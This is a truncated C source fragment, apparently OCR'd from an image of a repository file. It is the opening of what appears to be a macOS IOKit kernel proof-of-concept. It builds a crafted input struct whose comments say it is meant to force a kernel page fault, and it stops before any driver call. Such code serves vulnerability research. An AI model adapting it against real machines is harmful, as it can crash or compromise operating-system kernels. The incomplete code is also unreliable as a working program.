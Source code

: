 ```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#include <IOKit/IOKitLib.h>

#include <libkern/OSAtomic.h>

#include <mach/thread_act.h>

#include <pthread.h>

#include <mach/mach.h>
#include <mach/vm_map.h>
#include <sys/mman.h>

unsigned int selector = 0;

uint64_t inputScalar = 0;
size_t inputScalarCnt = 0;


uint8_t inputStruct[3760];
size_t inputStructCnt = 0;

uint64_t outputScalar = 0;
uint32_t outputScalarCnt = 0;

uint8_t outputStruct[72] = {0};
size_t outputStructCnt = 0;

io_connect_t global_conn = MACH_PORT_NULL;


void set_params(io_connect_t conn)
{

    

    uint64_t *qword = (uint64_t *)inputStruct;
    uint32_t *dword = (uint32_t *)inputStruct;

    //capture this data via a kernel debug breakpoint, make newResourceXXX work
    qword[1] = 0x0000000100400040;
    qword[3] = 0x0000000000000100;
    qword[4] = 0x0000243004000101;
    qword[10] = 0x0000000000004000;
    qword[12] = 0x0000010000000000;
    qword[13] = 0x0000010000000000;
    qword[14] = 0x0040004000400040;
    qword[15] = 0x000300c000040001;
    qword[16] = 0x00007f8689415870;

    //copy data from input+0x98 to buffer according to this value
    dword[62] = 0x100000; 
    // 0x100000 entries with 8x size, big enough to make a page fault

    global_conn = conn;
    selector = 0;
    inputScalarCnt = 0;
    inputStructCnt = 3760;
    outputScalarCnt = 0;
```